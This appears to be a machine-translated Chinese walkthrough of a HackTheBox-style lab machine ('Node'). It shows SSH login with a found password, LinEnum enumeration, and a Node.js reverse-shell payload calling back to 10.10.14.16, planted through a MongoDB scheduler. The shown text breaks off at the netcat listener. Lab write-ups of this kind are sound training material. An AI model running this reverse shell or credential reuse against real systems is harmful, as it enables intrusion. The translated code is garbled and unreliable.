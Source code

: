 app.js 文件中是 mark 的登录详细信息

**标记:5AYRft73VtFpc84k**

让 ssh 进来，看看它们是否工作。

***root @ Kali:# ssh mark @ 10 . 10 . 10 . 58
mark @ 10 . 10 . 10 . 58 的密码:***

***上次登录:2017 年 9 月 27 日 02:33:14 从 10 . 10 . 14 . 3
mark @ node:~ $ ls
mark @ node:/home/frank $ locate user . txt
/home/Tom/user . txt
mark @ node:/home/frank $ cat/home/Tom/user . txt
cat:/home/Tom/user . txt:权限被拒绝***

好吧，所以我需要改变用户从马克到弗兰克获得任何进展。

让我们开始枚举盒子。最好的方法是把我们的 LinEnum 脚本放到机器上，从 **/tmp** 目录运行它，因为我们通常在那里有写权限。

LinEnum 扫描的输出显示，机器上有 3 个用户**弗兰克、马克**和**汤姆**

继续查看 LinEnum 输出，我们可以看到 app.js 进程正在运行一个用户 Tom

**汤姆 1236 0.1 5.0 1074104 38092？SSL 11:11 0:01/usr/bin/node/var/scheduler/app . js**

我们打开 app.js，找到了之前找到的相同凭据。这表明它的备份是使用我们之前发现的相同脚本创建的。仔细查看文件，我们还发现这个脚本调用了 **/usr/local/bin** 目录中的一个名为 **backup** 的文件，并使用一个键来创建备份。

现在我们知道这个盒子上有 MongoDB，我们可以用它来进一步利用它。*(那一跳花了我很长时间，我被困了很长时间，在这个阶段我应该休息一下，我可能不会花这么长时间来理解 Mongo 的部分)。*

我可以创建并上传一个. js 反向 shell，并使用 Mongo 中的 Sheduler 来触发它。

反向外壳看起来像这样:

> **(function(){
> var net = require(" net ")，
> cp = require("child_process ")，
> sh = CP . spawn("/bin/sh " ,[])；
> var 客户端=新网。socket()；
> client.connect(2007，“10.10.14.16”，function(){
> client . pipe(sh . stdin)；
> sh.stdout.pipe(客户端)；
> sh.stderr.pipe(客户端)；
> })；
> return/a/；//防止 Node.js 应用崩溃
> })()；**

我们使用 wget 和 python SimpleHTTP 把它放到盒子上。我们必须更改权限，让它在这台机器上运行。

**chmod +x**

然后我们可以启动 MongoDB，告诉它用调度程序运行什么。

***mongo
使用调度器
db.auth("mark "，" 5a yrft 73 vtfpc 84k ")
1***

切换到一个新的终端窗口，我们必须设置一个 netcat 监听器，当它被触发时捕捉我们的反向 shell。
